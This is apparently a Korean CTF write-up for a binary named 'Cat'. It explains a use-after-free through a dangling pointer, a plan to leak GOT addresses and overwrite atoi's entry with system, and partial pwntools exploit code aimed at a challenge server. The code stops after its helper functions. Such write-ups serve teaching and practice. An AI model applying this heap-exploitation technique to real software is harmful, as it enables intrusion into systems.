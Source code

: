 이제 공격 시나리오를 대충 생각해봅시다.

edit에서 n을 입력하여 해제하고 create를 통해 청크를 생성한다면 edit에서 kind, name, pet으로 사용되던 영역이 순서대로 pet, name, kind로 사용됩니다.

그 후 다시 edit을 실행한다면 dangling pointer로 남아있던 `new_pet` 때문에 create를 통해 생성한 kind 영역이 edit에서는 pet 구조체로서 인식됩니다. 따라서 arbitrary write가 가능합니다.

시나리오를 구체적으로 다시 정리해봅시다.

1. pet(idx0) 생성.
2. edit(n) 실행.
3. pet(idx1) 생성. 이 때 kind의 값에 pet\_list 주소를 입력.
4. edit(y) 실행. name과 kind에 printf의 got를 입력. 그러면 idx0 pet 구조체에 printf got가 write됨.
5. idx0 print. printf 주소 값 leak.
6. 위 과정을 반복하여 이번엔 printf 대신 atoi 주소도 leak.
7. libc database로 system 주소 오프셋을 구함.
8. atoi got에 system 주소를 overwrite

## Exploit Code

```python
from pwn import *
import sys

def create(name, kind, age):
    p.sendafter("which command?\n> ", "0001")
    p.sendafter("What's the pet's name?\n> ", name)
    p.sendafter("What's the pet's kind?\n> ", kind)
    p.sendafter("How old?\n> ", str(age).rjust(4,"0"))

def edit(idx, name, kind, age, yn):
    p.sendafter("which command?\n> ", "0002")
    p.sendafter("which id?\n> ", str(idx).rjust(4,"0"))
    p.sendafter("What's the pet's name?\n> ", name)
    p.sendafter("What's the pet's kind?\n> ", kind)
    p.sendafter("How old?\n> ", str(age).rjust(4,"0"))
    p.sendafter("Would you modify? (y)/n> ", yn.ljust(4,"\x00"))

def print_one(idx):
    global pname, pkind, pold
    p.sendafter("which command?\n> ", "0003")
    p.sendafter("which id?\n> ", str(idx).rjust(4,"0"))
    p.recvuntil("name: ")
    pname = p.recvline()[:-1]
    p.recvuntil("kind: ")
    pkind = p.recvline()[:-1]
    p.recvuntil("old: ")
    pold = p.recvline()[:-1]


def print_all():
    p.sendafter("which command?\n> ", "0004")
    print p.recvuntil("print all: \n")

def delete_one(idx):
    p.sendafter("which command?\n> ", "0005")
    p.sendafter("which id?\n> ", str(idx).rjust(4,"0"))


if len(sys.argv) == 1:
    p = process("./Cat")
else:
    remote("178.62.40.102", 6000)

```